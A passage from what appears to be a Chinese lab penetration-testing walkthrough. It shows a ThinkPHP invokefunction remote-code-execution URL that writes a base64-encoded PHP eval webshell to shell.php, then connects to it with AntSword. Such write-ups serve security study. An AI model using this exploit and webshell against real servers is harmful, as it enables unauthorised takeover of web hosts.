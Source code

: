 然后尝试getshell

![image-20231201104742976](images/5.png)

去写入一个文件

```
http://172.25.0.13/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>shell.php
```

![image-20231201104916595](images/6.png)

可以看到已经成功写入了，直接用蚁剑连接

![image-20231201105046053](images/7.png)
